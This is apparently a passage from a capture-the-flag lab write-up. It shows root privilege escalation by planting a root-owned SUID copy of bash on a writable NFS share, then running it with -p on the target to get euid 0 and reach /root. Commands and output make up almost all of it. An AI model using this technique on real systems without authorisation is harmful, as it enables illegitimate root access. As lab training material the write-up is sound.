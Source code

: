 ![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`cd ./nfs-images-dev`

`scp fogproject@191.168.56.141:/bin/bash ./`:
```
bash                                             100% 1141KB  22.0MB/s   00:00 ←
```

`ls -l ./`:
```                                                                 
total 1148
-rwxr-xr-x 1 kali  kali 1168776 Oct 15 17:11 bash ←
drwxrwxrwx 2 nVbla root    4096 Mar 10  2021 postinitscripts
```

`chown root:root ./bash`

`chmod 4755 ./bash`

`ls -l ./`:
```
total 1148
-rwsr-xr-x 1 root  root 1168776 Oct 15 17:11 bash ←
drwxrwxrwx 2 nVbla root    4096 Mar 10  2021 postinitscripts
```

![Victim: fogproject](https://img.shields.io/badge/Victim-fogproject-64b5f6?logo=linux&logoColor=white)

`cd /images/dev`

`ls -alps ./`:
```
total 1156
   4 drwxrwxrwx 3 fogproject root    4096 Oct 15 11:11 ./
   4 drwxrwxrwx 4 fogproject root    4096 Mar 10  2021 ../
1144 -rwsr-xr-x 1 root       root 1168776 Oct 15 11:11 bash ←
   0 -rwxrwxrwx 1 fogproject root       0 Mar 10  2021 .mntcheck
   4 drwxrwxrwx 2 fogproject root    4096 Mar 10  2021 postinitscripts/
```

`./bash -p`

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```

`id`:
```
uid=1001(fogproject) gid=1001(fogproject) euid=0(root) groups=1001(fogproject) ←
```

`cd /root`

`ls -alps`:
```
total 32
4 drwx------  3 root root 4096 Mar 10  2021 ./
4 drwxr-xr-x 21 root root 4096 Mar 10  2021 ../
4 -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4 -rwx--x--x  1 root root 1920 Mar 10  2021 flag.sh
4 drwxr-xr-x  3 root root 4096 Mar 10  2021 .local/
4 -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4 -rw-------  1 root root   20 Mar 10  2021 root.txt ←
4 -rw-r--r--  1 root root  209 Mar 10  2021 .wget-hsts
```
